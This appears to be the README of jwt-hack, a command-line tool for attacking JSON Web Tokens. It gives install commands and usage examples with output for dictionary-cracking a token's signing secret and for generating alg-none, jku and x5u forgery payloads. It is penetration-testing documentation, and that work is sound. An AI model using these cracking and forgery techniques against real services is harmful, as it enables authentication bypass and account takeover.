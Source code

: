 <h1 align="center">
  <br>
  <a href=""><img src="https://user-images.githubusercontent.com/13212227/91675684-26561500-eb78-11ea-9f59-d904d743afae.png" alt="" width="260px;"></a>
  <br>
  Hack the JWT(JSON Web Token)
  <br>
  <img src="https://img.shields.io/github/v/release/hahwul/jwt-hack?style=flat-square"> 
  <a href="https://snapcraft.io/jwt-hack"><img alt="jwt-hack" src="https://snapcraft.io/jwt-hack/badge.svg" /></a>
  <img src="https://img.shields.io/github/languages/top/hahwul/jwt-hack?style=flat-square"> <img src="https://app.codacy.com/project/badge/Grade/77bdf42ef06a430a9bfb46f15eb86626"> <a href="https://goreportcard.com/report/github.com/hahwul/jwt-hack"><img src="https://goreportcard.com/badge/github.com/hahwul/jwt-hack"></a> <img src="https://img.shields.io/github/issues-closed/hahwul/jwt-hack?style=flat-square"> 
<a href="https://twitter.com/intent/follow?screen_name=hahwul"><img src="https://img.shields.io/twitter/follow/hahwul?style=flat-square"></a>
  <img src="https://github.com/hahwul/jwt-hack/workflows/Docker%20CI/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/workflows/CodeQL/badge.svg">
  <img src="https://github.com/hahwul/jwt-hack/workflows/Go/badge.svg">
</h1>

## Installation
### go-get(dev version)
```
$ go get -u github.com/hahwul/jwt-hack
```

### homebrew
```
$ brew tap hahwul/jwt-hack
$ brew install jwt-hack
```

### snapcraft
```
$ sudo snap install jwt-hack
```

## Usage
```
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
Hack the JWT(JSON Web Token) | by @hahwul | v1.0.0

Usage:
  jwt-hack [command]

Available Commands:
  crack       Cracking JWT Token
  decode      Decode JWT to JSON
  encode      Encode json to JWT
  help        Help about any command
  payload     Generate JWT Attack payloads
  version     Show version

Flags:
  -h, --help   help for jwt-hack
```

![1414](https://user-images.githubusercontent.com/13212227/97078000-8a023900-1623-11eb-844f-ee92399be392.png)

## Encode mode(JSON to JWT)
```
$ jwt-hack encode '{"json":"format"}' --secret={YOUR_SECRET}
```

e.g
```
$ jwt-hack encode '{"test":"1234"}' --secret=asdf
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Encoded result                                algorithm=HS256
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0ZXN0IjoiMTIzNCJ9.JOL1SYkRZYUz9GVny-DgoDj60C0RLz929h1_fFcpqQA
```

## Decode mode(JWT to JSON)
```
$ jwt-hack decode {JWT_CODE}
```

e.g 
```
$ jwt-hack decode eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
INFO[0000] Decoded data(claims)                          header="{\"alg\":\"HS256\",\"typ\":\"JWT\"}" method="&{HS256 5}"
{"iat":1516239022,"name":"John Doe","sub":"1234567890"}
```

## Crack mode(Dictionary attack / BruteForce)
```
$ jwt-hack crack -w {WORDLIST} {JWT_CODE}
```

e.g
```
$ jwt-hack crack eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA -w samples/wordlist.txt

   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
[*] Start dict cracking mode
INFO[0000] Loaded words (remove duplicated)              size=16
INFO[0000] Invalid signature                             word=fas
INFO[0000] Invalid signature                             word=asd
INFO[0000] Invalid signature                             word=1234
INFO[0000] Invalid signature                             word=efq
INFO[0000] Invalid signature                             word=asdf
INFO[0000] Invalid signature                             word=2q
INFO[0000] Found! Token signature secret is test         Signature=Verified Word=test
INFO[0000] Invalid signature                             word=dfas
INFO[0000] Invalid signature                             word=ga
INFO[0000] Invalid signature                             word=f
INFO[0000] Invalid signature                             word=ds
INFO[0000] Invalid signature                             word=sad
INFO[0000] Invalid signature                             word=qsf
...
INFO[0000] Invalid signature                             word=password
INFO[0000] Invalid signature                             word=error
INFO[0000] Invalid signature                             word=calendar
[+] Found! JWT signature secret: test
[+] Finish crack mode
```

## Payload mode(Alg none attack, etc..)
```
$ jwt-hack payload {JWT_CODE}
```

e.g
```
$ jwt-hack payload eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.5mhBHqs5_DTLdINd9p5m7ZJ6XD0Xc55kIaCRY5r6HRA
   d8p 8d8   d88 888888888          888  888 ,8b.     doooooo 888  ,dP
   88p 888,o.d88    '88d     ______ 88888888 88'8o    d88     888o8P'
   88P 888P`Y8b8   '888      XXXXXX 88P  888 88PPY8.  d88     888 Y8L
88888' 88P   YP8 '88p               88P  888 8b   `Y' d888888 888  `8p
-------------------------
payload called
INFO[0000] Generate none payload                         header="{\"alg\":\"none\",\"typ\":\"JWT\"}" payload=none
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NonE payload                         header="{\"alg\":\"NonE\",\"typ\":\"JWT\"}" payload=NonE
eyJhbGciOiJOb25FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate NONE payload                         header="{\"alg\":\"NONE\",\"typ\":\"JWT\"}" payload=NONE
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0=.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate jku payload                          header="{\"alg\":\"hs256\",\"jku\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=jku
eyJhbGciOiJoczI1NiIsImprdSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
INFO[0000] Generate x5u payload                          header="{\"alg\":\"hs256\",\"x5u\":\"https://www.google.com\",\"typ\":\"JWT\"}" payload=x5u
eyJhbGciOiJoczI1NiIsIng1dSI6Imh0dHBzOi8vd3d3Lmdvb2dsZS5jb20iLCJ0eXAiOiJKV1QifQ==.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.
```
